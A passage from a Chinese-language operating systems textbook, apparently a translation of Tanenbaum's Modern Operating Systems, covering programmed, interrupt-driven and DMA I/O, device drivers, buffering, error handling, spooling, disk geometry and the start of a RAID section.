然后，操作系统（通常）将字符串缓冲区复制到内核空间中的一个数组（如p）中，在这里访问更加容易（因为内核可能必须修改内存映射才能到达用户空间）。然后操作系统要查看打印机当前是否可用。如果不可用，就要等待直到它可用。一旦打印机可用，操作系统就复制第一个字符到打印机的数据寄存器中，在这个例子中使用了内存映射I/O。这一操作将激活打印机。字符也许还不会出现在打印机上，因为某些打印机在打印任何东西之前要先缓冲一行或一页。然而，在图5-7b中，我们看到第一个字符已经打印出来，并且系统已经将“B”标记为下一个待打印的字符。
一旦将第一个字符复制到打印机，操作系统就要查看打印机是否就绪准备接收另一个字符。一般而言，打印机都有第二个寄存器，用于表明其状态。将字符写到数据寄存器的操作将导致状态变为非就绪。当打印机控制器处理完当前字符时，它就通过在其状态寄存器中设置某一位或者将某个值放到状态寄存器中来表示其可用性。
这时，操作系统将等待打印机状态再次变为就绪。打印机就绪事件发生时，操作系统就打印下一个字符，如图5-7c所示。这一循环继续进行，直到整个字符串打印完。然后，控制返回到用户进程。
操作系统相继采取的操作总结在图5-8中。首先，数据被复制到内核空间。然后，操作系统进入一个密闭的循环，一次输出一个字符。在该图中，清楚地说明了程序控制I/O的最根本的方面，这就是输出一个字符之后，CPU要不断地查询设备以了解它是否就绪准备接收另一个字符。这一行为经常称为轮询（polling）或忙等待（busy waiting）。
程序控制I/O十分简单但是有缺点，即直到全部I/O完成之前要占用CPU的全部时间。如果“打印”一个字符的时间非常短（因为打印机所做的全部事情就是将新的字符复制到一个内部缓冲区中），那么忙等待还是不错的。此外，在嵌入式系统中，CPU没有其他事情要做，忙等待也是合理的。然而，在更加复杂的系统中，CPU有其他工作要做，忙等待将是低效的，需要更好的I/O方法。
现在我们考虑在不缓冲字符而是在每个字符到来时便打印的打印机上进行打印的情形。如果打印机每秒可以打印100个字符，那么打印每个字符将花费10ms。这意味着，当每个字符写到打印机的数据寄存器中之后，CPU将有10ms搁置在无价值的循环中，等待允许输出下一个字符。这10ms时间足以进行一次上下文切换并且运行其他进程，否则就浪费了。
这种允许CPU在等待打印机变为就绪的同时做某些其他事情的方式就是使用中断。当打印字符串的系统调用被发出时，如我们前面所介绍的，字符串缓冲区被复制到内核空间，并且一旦打印机准备好接收一个字符时就将第一个字符复制到打印机中。这时，CPU要调用调度程序，并且某个其他进程将运行。请求打印字符串的进程将被阻塞，直到整个字符串打印完。系统调用所做的工作如图5-9a所示。
当打印机将字符打印完并且准备好接收下一个字符时，它将产生一个中断。这一中断将停止当前进程并且保存其状态。然后，打印机中断服务过程将运行。图5-9b所示为打印机中断服务过程的一个粗略的版本。如果没有更多的字符要打印，中断处理程序将采取某个操作将用户进程解除阻塞。否则，它将输出下一个字符，应答中断，并且返回到中断之前正在运行的进程，该进程将从其停止的地方继续运行。
中断驱动I/O的一个明显缺点是中断发生在每个字符上。中断要花费时间，所以这一方法将浪费一定数量的CPU时间。这一问题的一种解决方法是使用DMA。此处的思路是让DMA控制器一次给打印机提供一个字符，而不必打扰CPU。本质上，DMA是程序控制I/O，只是由DMA控制器而不是主CPU做全部工作。这一策略需要特殊的硬件（DMA控制器），但是使CPU获得自由从而可以在I/O期间做其他工作。使用DMA的代码概要如图5-10所示。
DMA重大的成功是将中断的次数从打印每个字符一次减少到打印每个缓冲区一次。如果有许多字符并且中断十分缓慢，那么采用DMA可能是重要的改进。另一方面，DMA控制器通常比主CPU要慢很多。如果DMA控制器不能以全速驱动设备，或者CPU在等待DMA中断的同时没有其他事情要做，那么采用中断驱动I/O甚至采用程序控制I/O也许更好。
I/O软件通常组织成四个层次，如图5-11所示。每一层具有一个要执行的定义明确的功能和一个的定义明确的与邻近层次的接口。功能与接口随系统的不同而不同，所以下面的讨论并不针对一种特定的机器。我们将从底层开始讨论每一层。
虽然程序控制I/O偶尔是有益的，但是对于大多数I/O而言，中断是令人不愉快的事情并且无法避免。应当将其深深地隐藏在操作系统内部，以便系统的其他部分尽量不与它发生联系。隐藏它们的最好办法是将启动一个I/O操作的驱动程序阻塞起来，直到I/O操作完成且产生一个中断。驱动程序阻塞自己的手段有：在一个信号量上执行down操作、在一个条件变量上执行wait操作、在一个消息上执行receive操作或者某些类似的操作。
当中断发生时，中断处理程序将做它必须要做的全部工作以便对中断进行处理。然后，它可以将启动中断的驱动程序解除阻塞。在一些情形中，它只是在一个信号量上执行up操作；其他情形中，是对管程中的条件变量执行signal操作；还有一些情形中，是向被阻塞的驱动程序发一个消息。在所有这些情形中，中断最终的结果是使先前被阻塞的驱动程序现在能够继续运行。如果驱动程序构造为内核进程，具有它们自己的状态、堆栈和程序计数器，那么这一模型运转得最好。
当然，现实没有如此简单。对一个中断进行处理并不只是简单地捕获中断，在某个信号量上执行up操作，然后执行一条IRET指令从中断返回到先前的进程。对操作系统而言，还涉及更多的工作。我们将按一系列步骤给出这一工作的轮廓，这些步骤是硬件中断完成之后必须在软件中执行的。应该注意的是，细节是非常依赖于系统的，所以下面列出的某些步骤在一个特定的机器上可能是不必要的，而没有列出的步骤可能是必需的。此外，确实发生的步骤在某些机器上也可能有不同的顺序。
1)保存没有被中断硬件保存的所有寄存器（包括PSW）。
2)为中断服务过程设置上下文，可能包括设置TLB、MMU和页表。
3)为中断服务过程设置堆栈。
4)应答中断控制器，如果不存在集中的中断控制器，则再次开放中断。
5)将寄存器从它们被保存的地方（可能是某个堆栈）复制到进程表中。
6)运行中断服务过程，从发出中断的设备控制器的寄存器中提取信息。
7)选择下一次运行哪个进程，如果中断导致某个被阻塞的高优先级进程变为就绪，则可能选择它现在就运行。
8)为下一次要运行的进程设置MMU上下文，也许还需要设置某个TLB。
9)装入新进程的寄存器，包括其PSW。
10)开始运行新进程。
由此可见，中断处理远不是无足轻重的小事。它要花费相当多的CPU指令，特别是在存在虚拟内存并且必须设置页表或者必须保存MMU状态（例如R和M位）的机器上。在某些机器上，当在用户态与核心态之间切换时，可能还需要管理TLB和CPU高速缓存，这就要花费额外的机器周期。
在本章前面的内容中，我们介绍了设备控制器所做的工作。我们注意到每一个控制器都设有某些设备寄存器用来向设备发出命令，或者设有某些设备寄存器用来读出设备的状态，或者设有这两种设备寄存器。设备寄存器的数量和命令的性质在不同设备之间有着根本性的不同。例如，鼠标驱动程序必须从鼠标接收信息，以识别鼠标移动了多远的距离以及当前哪一个键被按下。相反，磁盘驱动程序可能必须要了解扇区、磁道、柱面、磁头、磁盘臂移动、电机驱动器、磁头定位时间以及所有其他保证磁盘正常工作的机制。显然，这些驱动程序是有很大区别的。
因而，每个连接到计算机上的I/O设备都需要某些设备特定的代码来对其进行控制。这样的代码称为设备驱动程序（device driver），它一般由设备的制造商编写并随同设备一起交付。因为每一个操作系统都需要自己的驱动程序，所以设备制造商通常要为若干流行的操作系统提供驱动程序。
每个设备驱动程序通常处理一种类型的设备，或者至多处理一类紧密相关的设备。例如，SCSI磁盘驱动程序通常可以处理不同大小和不同速度的多个SCSI磁盘，或许还可以处理SCSI CD-ROM。而另一方面，鼠标和游戏操纵杆是如此的不同，以至于它们通常需要不同的驱动程序。然而，对于一个设备驱动程序控制多个不相关的设备并不存在技术上的限制，只是这样做并不是一个好主意。
为了访问设备的硬件（意味着访问设备控制器的寄存器），设备驱动程序通常必须是操作系统内核的一部分，至少对目前的体系结构是如此。实际上，有可能构造运行在用户空间的驱动程序，使用系统调用来读写设备寄存器。这一设计使内核与驱动程序相隔离，并且使驱动程序之间相互隔离，这样做可以消除系统崩溃的一个主要源头——有问题的驱动程序以这样或那样的方式干扰内核。对于建立高度可靠的系统而言，这绝对是正确的方向。MINIX 3就是一个这样的系统，其中设备驱动程序就作为用户进程而运行。然而，因为大多数其他桌面操作系统要求驱动程序运行在内核中，所以我们在这里只考虑这样的模型。
因为操作系统的设计者知道由外人编写的驱动程序代码片断将被安装在操作系统的内部，所以需要有一个体系结构来允许这样的安装。这意味着要有一个定义明确的模型，规定驱动程序做什么事情以及如何与操作系统的其余部分相互作用。设备驱动程序通常位于操作系统其余部分的下面，如图5-12所示。
操作系统通常将驱动程序归类于少数的类别之一。最为通用的类别是块设备（block device）和字符设备（character device）。块设备（例如磁盘）包含多个可以独立寻址的数据块，字符设备（例如键盘和打印机）则生成或接收字符流。
大多数操作系统都定义了一个所有块设备都必须支持的标准接口，并且还定义了另一个所有字符设备都必须支持的标准接口。这些接口由许多过程组成，操作系统的其余部分可以调用它们让驱动程序工作。典型的过程是那些读一个数据块（对块设备而言）或者写一个字符串（对字符设备而言）的过程。
在某些系统中，操作系统是一个二进制程序，包含需要编译到其内部的所有驱动程序。这一方案多年以来对UNIX系统而言是标准规范，因为UNIX系统主要由计算中心运行，I/O设备几乎不发生变化。如果添加了一个新设备，系统管理员只需重新编译内核，将新的驱动程序增加到新的二进制程序中。
随着个人计算机的出现，这一模型不再起作用，因为个人计算机有太多种类的I/O设备。即便拥有源代码或目标模块，也只有很少的用户有能力重新编译和重新连接内核，何况他们并不总是拥有源代码或目标模块。为此，从MS-DOS开始，操作系统转向驱动程序在执行期间动态地装载到系统中的另一个模型。不同的操作系统以不同的方式处理驱动程序的装载工作。
设备驱动程序具有若干功能。最明显的功能是接收来自其上方与设备无关的软件所发出的抽象的读写请求，并且目睹这些请求被执行。除此之外，还有一些其他的功能必须执行。例如，如果需要的话，驱动程序必须对设备进行初始化。它可能还需要对电源需求和日志事件进行管理。
许多设备驱动程序具有相似的一般结构。典型的驱动程序在启动时要检查输入参数，检查输入参数的目的是搞清它们是否是有效的，如果不是，则返回一个错误。如果输入参数是有效的，则可能需要进行从抽象事项到具体事项的转换。对磁盘驱动程序来说，这可能意味着将一个线性的磁盘块号转换成磁盘几何布局的磁头、磁道、扇区和柱面号。
接着，驱动程序可能要检查设备当前是否在使用。如果在使用，请求将被排入队列以备稍后处理。如果设备是空闲的，驱动程序将检查硬件状态以了解请求现在是否能够得到处理。在传输能够开始之前，可能需要接通设备或者启动马达。一旦设备接通并就绪，实际的控制就可以开始了。
控制设备意味着向设备发出一系列命令。依据控制设备必须要做的工作，驱动程序处在确定命令序列的地方。驱动程序在获知哪些命令将要发出之后，它就开始将它们写入控制器的设备寄存器。驱动程序在把每个命令写到控制器之后，它可能必须进行检测以了解控制器是否已经接收命令并且准备好接收下一个命令。这一序列继续进行，直到所有命令被发出。对于某些控制器，可以为其提供一个在内存中的命令链表，并且告诉它自己去读取并处理所有命令而不需要操作系统提供进一步帮助。
命令发出之后，会牵涉两种情形之一。在多数情况下，设备驱动程序必须等待，直到控制器为其做某些事情，所以驱动程序将阻塞其自身直到中断到来解除阻塞。然而，在另外一些情况下，操作可以无延迟地完成，所以驱动程序不需要阻塞。在字符模式下滚动屏幕只需要写少许字节到控制器的寄存器中，由于不需要机械运动，所以整个操作可以在几纳秒内完成，这便是后一种情形的例子。
在前一种情况下，阻塞的驱动程序可以被中断唤醒。在后一种情况下，驱动程序根本就不会休眠。无论是哪一种情况，操作完成之后驱动程序都必须检查错误。如果一切顺利，驱动程序可能要将数据（例如刚刚读出的一个磁盘块）传送给与设备无关的软件。最后，它向调用者返回一些用于错误报告的状态信息。如果还有其他未完成的请求在排队，则选择一个启动执行。如果队列中没有未完成的请求，则该驱动程序将阻塞以等待下一个请求。
这一简单的模型只是现实的粗略近似，许多因素使相关的代码比这要复杂得多。首先，当一个驱动程序正在运行时，某个I/O设备可能会完成操作，这样就会中断驱动程序。中断可能会导致一个设备驱动程序运行，事实上，它可能导致当前驱动程序运行。例如，当网络驱动程序正在处理一个到来的数据包时，另一个数据包可能到来。因此，驱动程序必须是重入的（reentrant），这意味着一个正在运行的驱动程序必须预料到在第一次调用完成之前第二次被调用。
在一个热可插拔的系统中，设备可以在计算机运行时添加或删除。因此，当一个驱动程序正忙于从某设备读数据时，系统可能会通知它用户突然将设备从系统中删除了。在这样的情况下，不但当前I/O传送必须中止并且不能破坏任何核心数据结构，而且任何对这个现已消失的设备的悬而未决的请求都必须适当地从系统中删除，同时还要为它们的调用者提供这一坏消息。此外，未预料到的新设备的添加可能导致内核重新配置资源（例如中断请求线），从驱动程序中撤除旧资源，并且在适当位置填入新资源。
驱动程序不允许进行系统调用，但是它们经常需要与内核的其余部分进行交互。对某些内核过程的调用通常是允许的。例如，通常需要调用内核过程来分配和释放硬接线的内存页面作为缓冲区。还可能需要其他有用的调用来管理MMU、定时器、DMA控制器、中断控制器等。
虽然I/O软件中有一些是设备特定的，但是其他部分I/O软件是与设备无关的。设备驱动程序和与设备无关的软件之间的确切界限依赖于具体系统（和设备），因为对于一些本来应按照与设备无关方式实现的功能，出于效率和其他原因，实际上是由驱动程序来实现的。图5-13所示的功能典型地由与设备无关的软件实现。
与设备无关的软件的基本功能是执行对所有设备公共的I/O功能，并且向用户层软件提供一个统一的接口。下面我们将详细介绍上述问题。
1.设备驱动程序的统一接口
操作系统的一个主要问题是如何使所有I/O设备和驱动程序看起来或多或少是相同的。如果磁盘、打印机、键盘等接口方式都不相同，那么每次在一个新设备出现时，都必须为新设备修改操作系统。必须为每个新设备修改操作系统决不是一个好主意。
设备驱动程序与操作系统其余部分之间的接口是这一问题的一个方面。图5-14a所示为这样一种情形：每个设备驱动程序有不同的与操作系统的接口。这意味着，可供系统调用的驱动程序函数随驱动程序的不同而不同。这可能还意味着，驱动程序所需要的内核函数也是随驱动程序的不同而不同的。综合起来看，这意味着为每个新的驱动程序提供接口都需要大量全新的编程工作。
相反，图5-14b所示为一种不同的设计，在这种设计中所有驱动程序具有相同的接口。这样一来，倘若符合驱动程序接口，那么添加一个新的驱动程序就变得容易多了。这还意味着驱动程序的编写人员知道驱动程序的接口应该是什么样子的。实际上，虽然并非所有的设备都是绝对一样的，但是通常只存在少数设备类型，而它们的确大体上是相同的。
这种设计的工作方式如下。对于每一种设备类型，例如磁盘或打印机，操作系统定义一组驱动程序必须支持的函数。对于磁盘而言，这些函数自然地包含读和写，除此之外还包含开启和关闭电源、格式化以及其他与磁盘有关的事情。驱动程序通常包含一张表格，这张表格具有针对这些函数指向驱动程序自身的指针。当驱动程序装载时，操作系统记录下这张函数指针表的地址，所以当操作系统需要调用一个函数时，它可以通过这张表格发出间接调用。这张函数指针表定义了驱动程序与操作系统其余部分之间的接口。给定类型（磁盘、打印机等）的所有设备都必须服从这一要求。
如何给I/O设备命名是统一接口问题的另一个方面。与设备无关的软件要负责把符号化的设备名映射到适当的驱动程序上。例如，在UNIX系统中，像/dev/disk0这样的设备名惟一确定了一个特殊文件的i节点，这个i节点包含了主设备号（major device number），主设备号用于定位相应的驱动程序。i节点还包含次设备号（minor device number），次设备号作为参数传递给驱动程序，用来确定要读或写的具体单元。所有设备都具有主设备号和次设备号，并且所有驱动程序都是通过使用主设备号来选择驱动程序而得到访问。
与设备命名密切相关的是设备保护。系统如何防止无权访问设备的用户访问设备呢？在UNIX和Windows中，设备是作为命名对象出现在文件系统中的，这意味着针对文件的常规的保护规则也适用于I/O设备。系统管理员可以为每一个设备设置适当的访问权限。
2.缓冲
无论对于块设备还是对于字符设备，由于种种原因，缓冲也是一个重要的问题。作为例子，我们考虑一个想要从调制解调器读入数据的进程。让用户进程执行read系统调用并阻塞自己以等待字符的到来，这是对到来的字符进行处理的一种可能的策略。每个字符的到来都将引起中断，中断服务过程负责将字符递交给用户进程并且将其解除阻塞。用户进程把字符放到某个地方之后可以对另一个字符执行读操作并且再次阻塞。这一模型如图5-15a所示。
这种处理方式的问题在于：对于每个到来的字符，都必须启动用户进程。对于短暂的数据流量让一个进程运行许多次效率会很低，所以这不是一个良好的设计。
图5-15b所示为一种改进措施。此处，用户进程在用户空间中提供了一个包含n个字符的缓冲区，并且执行读入n个字符的读操作。中断服务过程负责将到来的字符放入该缓冲区中直到缓冲区填满，然后唤醒用户进程。这一方案比前一种方案的效率要高很多，但是它也有一个缺点：当一个字符到来时，如果缓冲区被分页而调出了内存会出现什么问题呢？解决方法是将缓冲区锁定在内存中，但是如果许多进程都在内存中锁定页面，那么可用页面池就会收缩并且系统性能将下降。
另一种方法是在内核空间中创建一个缓冲区并且让中断处理程序将字符放到这个缓冲区中，如图5-15c所示。当该缓冲区被填满的时候，将包含用户缓冲区的页面调入内存（如果需要的话），并且在一次操作中将内核缓冲区的内容复制到用户缓冲区中。这一方法的效率要高很多。
然而，即使这种方案也面临一个问题：正当包含用户缓冲区的页面从磁盘调入内存的时候有新的字符到来，这样会发生什么事情？因为缓冲区已满，所以没有地方放置这些新来的字符。一种解决问题的方法是使用第二个内核缓冲区。第一个缓冲区填满之后，在它被清空之前，使用第二个缓冲区，如图5-15d所示。当第二个缓冲区填满时，就可以将它复制给用户（假设用户已经请求它）。当第二个缓冲区正在复制到用户空间的时候，第一个缓冲区可以用来接收新的字符。以这样的方法，两个缓冲区轮流使用：当一个缓冲区正在被复制到用户空间的时候，另一个缓冲区正在收集新的输入。像这样的缓冲模式称为双缓冲（double buffering）。
广泛使用的另一种形式的缓冲是循环缓冲区（circular buffer）。它由一个内存区域和两个指针组成。一个指针指向下一个空闲的字，新的数据可以放置到此处。另一个指针指向缓冲区中数据的第一个字，该字尚未被取走。在许多情况下，当添加新的数据时（例如刚刚从网络到来），硬件将推进第一个指针，而操作系统在取走并处理数据时推进第二个指针。两个指针都是环绕的，当它们到达顶部时将回到底部。
缓冲对于输出也是十分重要的。例如，对于没有缓冲区的调制解调器，我们考虑采用图5-15b的模型输出是如何实现的。用户进程执行write系统调用以输出n个字符。系统在此刻有两种选择。它可以将用户阻塞直到写完所有字符，但是这样做在低速的电话线上可能花费非常长的时间。它也可以立即将用户释放并且在进行I/O的同时让用户做某些其他计算，但是这会导致一个更为糟糕的问题：用户进程怎样知道输出已经完成并且可以重用缓冲区？系统可以生成一个信号或软件中断，但是这样的编程方式是十分困难的并且被证明是竞争条件。对于内核来说更好的解决方法是将数据复制到一个内核缓冲区中，与图5-15c相类似（但是是另一个方向），并且立刻将调用者解除阻塞。现在实际的I/O什么时候完成都没有关系了，用户一旦被解除阻塞立刻就可以自由地重用缓冲区。
缓冲是一种广泛采用的技术，但是它也有不利的方面。如果数据被缓冲太多次，性能就会降低。例如，考虑图5-16中的网络。其中，一个用户执行了一个系统调用向网络写数据。内核将数据包复制到一个内核缓冲区中，从而立即使用户进程得以继续进行（第1步）。在此刻，用户程序可以重用缓冲区。
当驱动程序被调用时，它将数据包复制到控制器上以供输出（第2步）。它不是将数据包从内核内存直接输出到网线上，其原因是一旦开始一个数据包的传输，它就必须以均匀的速度继续下去，驱动程序不能保证它能够以均匀的速度访问内存，因为DMA通道与其他I/O设备可能正在窃取许多周期。不能及时获得一个字将毁坏数据包，而通过在控制器内部对数据包进行缓冲就可以避免这一问题。
当数据包复制到控制器的内部缓冲区中之后，它就会被复制到网络上（第3步）。数据位被发送之后立刻就会到达接收器，所以在最后一位刚刚送出之后，该位就到达了接收器，在这里数据包在控制器中被缓冲。接下来，数据包复制到接收器的内核缓冲区中（第4步）。最后，它被复制到接收进程的缓冲区中（第5步）。然后接收器通常会发回一个应答。当发送者得到应答时，它就可以自由地发送下一个数据包。然而，应该清楚的是，所有这些复制操作都会在很大程度上降低传输速率，因为所有这些步骤必须有序地发生。
3.错误报告
错误在I/O上下文中比在其他上下文中要常见得多。当错误发生时，操作系统必须尽最大努力对它们进行处理。许多错误是设备特定的并且必须由适当的驱动程序来处理，但是错误处理的框架是设备无关的。
一种类型的I/O错误是编程错误，这些错误发生在一个进程请求某些不可能的事情时，例如写一个输入设备（键盘、扫描仪、鼠标等）或者读一个输出设备（打印机、绘图仪等）。其他的错误包括提供了一个无效的缓冲区地址或者其他参数，以及指定了一个无效的设备（例如，当系统只有两块磁盘时指定了磁盘3），如此等等。在这些错误上采取的行动是直截了当的：只是将一个错误代码报告返回给调用者。
另一种类型的错误是实际的I/O错误，例如，试图写一个已经被破坏的磁盘块，或者试图读一个已经关机的便携式摄像机。在这些情形中，应该由驱动程序决定做什么。如果驱动程序不知道做什么，它应该将问题向上传递，返回给与设备无关的软件。
软件要做的事情取决于环境和错误的本质。如果是一个简单的读错误并且存在一个交互式的用户可利用，那么它就可以显示一个对话框来询问用户做什么。选项可能包括重试一定的次数，忽略错误，或者杀死调用进程。如果没有用户可利用，惟一的实际选择或许就是以一个错误代码让系统调用失败。
然而，某些错误不能以这样的方式来处理。例如，关键的数据结构（如根目录或空闲块列表）可能已经被破坏，在这种情况下，系统也许只好显示一条错误消息并且终止。
4.分配与释放专用设备
某些设备，例如CD-ROM刻录机，在任意给定的时刻只能由一个进程使用。这就要求操作系统对设备使用的请求进行检查，并且根据被请求的设备是否可用来接受或者拒绝这些请求。处理这些请求的一种简单方法是要求进程在代表设备的特殊文件上直接执行open操作。如果设备是不可用的，那么open就会失败。于是就关闭这样的一个专用设备，然后将其释放。
一种代替的方法是对于请求和释放专用设备要有特殊的机制。试图得到不可用的设备可以将调用者阻塞，而不是让其失败。阻塞的进程被放入一个队列。迟早被请求的设备会变得可用，这时就可以让队列中的第一个进程得到该设备并且继续执行。
5.与设备无关的块大小
不同的磁盘可能具有不同的扇区大小。应该由与设备无关的软件来隐藏这一事实并且向高层提供一个统一的块大小，例如，将若干个扇区当作一个逻辑块。这样，高层软件就只需处理抽象的设备，这些抽象设备全都使用相同的逻辑块大小，与物理扇区的大小无关。类似地，某些字符设备（如调制解调器）一次一个字节地交付它们的数据，而其他的设备（如网络接口）则以较大的单位交付它们的数据。这些差异也可以被隐藏起来。
尽管大部分I/O软件都在操作系统内部，但是仍然有一小部分在用户空间，包括与用户程序连接在一起的库，甚至完全运行于内核之外的程序。系统调用（包括I/O系统调用）通常由库过程实现。当一个C程序包含调用
count=write(fd,buffer,nbytes)；
时，库过程write将与该程序连接在一起，并包含在运行时出现在内存中的二进制程序中。所有这些库过程的集合显然是I/O系统的组成部分。
虽然这些过程所做的工作不过是将这些参数放在合适的位置供系统调用使用，但是确有其他I/O过程实际实现真正的操作。输入和输出的格式化是由库过程完成的。一个例子是C语言中的printf，它以一个格式串和可能的一些变量作为输入，构造一个ASCII字符串，然后调用write以输出这个串。作为printf的一个例子，考虑语句
printf("The square of%3d is%6d\n",i,i *i);
该语句格式化一个字符串，该字符串是这样组成的：先是14个字符的串“The square of”（注意of后有一个空格），随后是i值作为3个字符的串，然后是4个字符的串“is”（注意前后各有一个空格），然后是i2 值作为6个字符的串，最后是一个换行。
对输入而言，类似过程的一个例子是scanf，它读取输入并将其存放到一些变量中，采用与printf同样语法的格式串来描述这些变量。标准的I/O库包含许多涉及I/O的过程，它们都是作为用户程序的一部分运行的。
并非所有的用户层I/O软件都是由库过程组成的。另一个重要的类别是假脱机系统。假脱机（spooling）是多道程序设计系统中处理独占I/O设备的一种方法。考虑一种典型的假脱机设备：打印机。尽管在技术上可以十分容易地让任何用户进程打开表示该打印机的字符特殊文件，但是假如一个进程打开它，然后很长时间不使用，则其他进程都无法打印。
另一种方法是创建一个特殊进程，称为守护进程（daemon），以及一个特殊目录，称为假脱机目录（spooling directory）。一个进程要打印一个文件时，首先生成要打印的整个文件，并且将其放在假脱机目录下。由守护进程打印该目录下的文件，该进程是允许使用打印机特殊文件的惟一进程。通过保护特殊文件来防止用户直接使用，可以解决某些进程不必要地长期空占打印机的问题。
假脱机不仅仅用于打印机，还可以在其他情况下使用。例如，通过网络传输文件常常使用一个网络守护进程。要发送一个文件到某个地方，用户可以将该文件放在一个网络假脱机目录下。稍后，由网络守护进程将其取出并且发送出去。这种假脱机文件传输方式的一个特定用途是USENET新闻系统，该网络由世界上使用因特网进行通信的成千上万台计算机组成，针对许多话题存在着几千个新闻组。要发送一条新闻消息，用户可以调用新闻程序，该程序接收要发出的消息，然后将其存放在假脱机目录中，待以后发送到其他计算机上。整个新闻系统是在操作系统之外运行的。
图5-17对I/O系统进行了总结，给出了所有层次以及每一层的主要功能。从底部开始，这些层是硬件、中断处理程序、设备驱动程序、与设备无关的软件，最后是用户进程。
图5-17中的箭头表明了控制流。例如，当一个用户程序试图从一个文件中读一个块时，操作系统被调用以实现这一请求。与设备无关的软件在缓冲区高速缓存中查找有无要读的块。如果需要的块不在其中，则调用设备驱动程序，向硬件发出一个请求，让它从磁盘中获取该块。然后，进程被阻塞直到磁盘操作完成。
当磁盘操作完成时，硬件产生一个中断。中断处理程序就会运行，它要查明发生了什么事情，也就是说此刻需要关注哪个设备。然后，中断处理程序从设备提取状态信息，唤醒休眠的进程以结束此次I/O请求，并且让用户进程继续运行。
现在我们开始研究某些实际的I/O设备。我们将从盘开始，盘的概念简单，但是非常重要。然后，我们将研究时钟、键盘和显示器。
盘具有多种多样的类型。最为常用的是磁盘（硬盘和软盘），它们具有读写速度同样快的特点，这使得它们成为理想的辅助存储器（用于分页、文件系统等）。这些盘的阵列有时用来提供高可靠性的存储器。对于程序、数据和电影的发行而言，各种光盘（CD-ROM、可刻录CD以及DVD）也非常重要。在下面各小节中，我们首先描述这些设备的硬件，然后描述其软件。
1.磁盘
磁盘被组织成柱面，每一个柱面包含若干磁道，磁道数与垂直堆叠的磁头个数相同。磁道又被分成若干扇区，软盘上大约每条磁道有8～32个扇区，硬盘上每条磁道上扇区的数目可以多达几百个。磁头数大约是1～16个。
老式的磁盘只有少量的电子设备，它们只是传送简单的串行位流。在这些磁盘上，控制器做了大部分的工作。在其他磁盘上，特别是在IDE（Integrated Drive Electronics，集成驱动电子设备）和SATA（Serial ATA，串行ATA）盘上，磁盘驱动器本身包含一个微控制器，该微控制器承担了大量的工作并且允许实际的控制器发出一组高级命令。控制器经常做磁道高速缓存、坏块重映射以及更多的工作。
对磁盘驱动程序有重要意义的一个设备特性是：控制器是否可以同时控制两个或多个驱动器进行寻道，这就是重叠寻道（overlapped seek）。当控制器和软件等待一个驱动器完成寻道时，控制器可以同时启动另一个驱动器进行寻道。许多控制器也可以在一个驱动器上进行读写操作，与此同时再对另一个或多个其他驱动器进行寻道，但是软盘控制器不能在两个驱动器上同时进行读写操作。（读写数据要求控制器在微秒级时间尺度传输数据，所以一次传输就用完了控制器大部分的计算能力。）对于具有集成控制器的硬盘而言情况就不同了，在具有一个以上这种硬盘驱动器的系统上，它们能够同时操作，至少在磁盘与控制器的缓冲存储器之间进行数据传输的限度之内是这样。然而，在控制器与主存之间可能同时只有一次传输。同时执行两个或多个操作的能力极大地降低了平均存取时间。
图5-18比较了最初的IBM PC标准存储介质的参数与20年后制造的磁盘的参数，从中可以看出过去20年磁盘发生了多大的变化。有趣的是，可以注意到并不是所有的参数都具有同样程度的改进。平均寻道时间改进了7倍，传输率改进了1300倍，而容量的改进则高达50 000倍。这一格局主要是因为磁盘中运动部件的改进相对和缓渐进，而记录表面则达到了相当高的位密度。
在阅读现代硬盘的说明书时，要清楚的事情是标称的几何规格以及驱动程序软件使用的几何规格与物理格式几乎总是不同的。在老式的磁盘上，每磁道扇区数对所有柱面都是相同的。而现代磁盘则被划分成环带，外层的环带比内层的环带拥有更多的扇区。图5-19a所示为一个微小的磁盘，它具有两个环带，外层的环带每磁道有32个扇区，内层的环带每磁道有16个扇区。一个实际的磁盘（例如WD 18300）常常有16个环带，从最内层的环带到最外层的环带，每个环带的扇区数增加大约4%。
为了隐藏每个磁道有多少扇区的细节，大多数现代磁盘都有一个虚拟几何规格呈现给操作系统。软件在工作时仿佛存在着x个柱面、y个磁头、每磁道z个扇区，而控制器则将对(x,y,z）的请求重映射到实际的柱面、磁头和扇区。对于图5-19a中的物理磁盘，一种可能的虚拟几何规格如图5-19b所示。在两种情形中磁盘拥有的扇区数都是192，只不过公布的排列与实际的排列是不同的。
对于PC机而言，上述三个参数的最大值常常是（65 535，16，63），这是因为需要与最初IBM PC的限制向后兼容。在IBM PC机器上，使用16位、4位和6位的字段来设定这些参数，其中柱面和扇区从1开始编号，磁头从0开始编号。根据这些参数以及每个扇区512字节可知，磁盘最大可能的容量是31.5GB。为突破这一限制，所有现代磁盘现在都支持一种称为逻辑块寻址（logical block addressing，LBA）的系统，在这样的系统中，磁盘扇区从0开始连续编号，而不管磁盘的几何规格如何。
2.RAID
在过去十多年里，CPU的性能一直呈现出指数增长，大体上每18个月翻一番。但是磁盘的性能就不是这样了。20世纪70年代，小型计算机磁盘的平均寻道时间是50～100毫秒，现在的寻道时间略微低于10毫秒。在大多数技术产业（如汽车业或航空业）中，在20年之内有5～10倍的性能改进就将是重大的新闻（想象300 MPG的轿车 [1] ），但是在计算机产业中，这却是一个窘境。因此，CPU性能与磁盘性能之间的差距随着时间的推移将越来越大。
正如我们已经看到的，为了提高CPU的性能，越来越多地使用了并行处理。在过去许多年，很多人也意识到并行I/O是一个很好的思想。Patterson等人在他们1988年写的文章中提出，使用六种特殊的磁盘组织可能会改进磁盘的性能、可靠性或者同时改进这两者（Patterson等人，1988）。这些思想很快被工业界所采纳，并且导致称为RAID的一种新型I/O设备的诞生。Patterson等人将RAID定义为Redundant Array of Inexpensive Disk（廉价磁盘冗余阵列），但是工业界将I重定义为Independent（独立）而不是Inexpensive（廉价），或许这样他们就可以收取更多的费用？因为反面角色也是需要的（如同RISC对CISC，这也是源于Patterson），此处的“坏家伙”是SLED（Single Large Expensive Disk，单个大容量昂贵磁盘）。
RAID背后的基本思想是将一个装满了磁盘的盒子安装到计算机（通常是一个大型服务器）上，用RAID控制器替换磁盘控制器卡，将数据复制到整个RAID上，然后继续常规的操作。换言之，对操作系统而言一个RAID应该看起来就像是一个SLED，但是具有更好的性能和更好的可靠性。由于SCSI盘具有良好的性能、较低的价格并且在单个控制器上能够容纳多达7个驱动器（对宽型SCSI而言是15个），很自然地大多数RAID由一个RAID SCSI控制器加上一个装满了SCSI盘的盒子组成，而对操作系统而言这似乎就是一个大容量磁盘。以这样的方法，不需要软件做任何修改就可以使用RAID，对于许多系统管理员来说这可是一大卖点。
